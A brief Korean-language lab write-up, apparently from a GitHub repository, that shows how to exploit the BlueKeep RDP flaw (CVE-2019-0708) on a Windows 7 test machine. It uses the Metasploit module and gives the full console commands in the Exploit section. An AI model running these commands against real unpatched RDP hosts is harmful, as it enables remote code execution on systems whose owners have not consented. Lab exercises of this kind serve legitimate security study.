

# [목차]
**1. [Environment](#Environment)**

**2. [Setting](#Setting)**

**3. [Exploit](#Exploit)**


***


# **Environment**

| Type       | OS                        | IP              |
| :---       | :---                      | :---            |
| Victim     | Windows 7 Ultimate K 7601 | 192.168.108.175 |
| Attacker   | Kali 2019                 | 192.168.108.132 |

# **Setting**

Victim의 원격 데스크톱 활성


# **Exploit**

metsploit 실행

```sh
msf5 > use windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhost 192.168.108.175
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

